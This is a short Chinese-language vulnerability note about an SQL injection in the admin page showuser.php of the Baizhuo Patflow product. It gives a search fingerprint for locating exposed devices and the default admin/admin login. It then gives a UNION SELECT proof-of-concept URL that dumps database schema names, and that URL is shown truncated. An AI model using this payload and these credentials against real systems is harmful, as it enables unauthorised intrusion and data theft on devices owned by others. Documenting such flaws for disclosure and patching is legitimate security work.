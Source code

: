 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

```
百卓 Patflow
```

## 网络测绘

```
"Patflow"
```

## 漏洞复现

登录页面

![image-20220519183747439](images/202205191837588.png)

默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20f
```

![image-20220519183758066](images/202205191837110.png)